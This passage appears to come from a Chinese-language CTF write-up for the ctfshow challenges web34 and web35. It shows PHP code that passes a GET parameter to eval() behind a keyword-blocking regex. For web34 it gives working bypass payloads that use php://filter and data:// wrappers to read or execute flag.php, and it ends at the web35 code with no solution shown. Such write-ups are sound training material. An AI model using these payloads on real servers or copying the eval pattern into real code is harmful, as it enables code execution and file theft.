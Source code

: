 #### web34

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web35

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
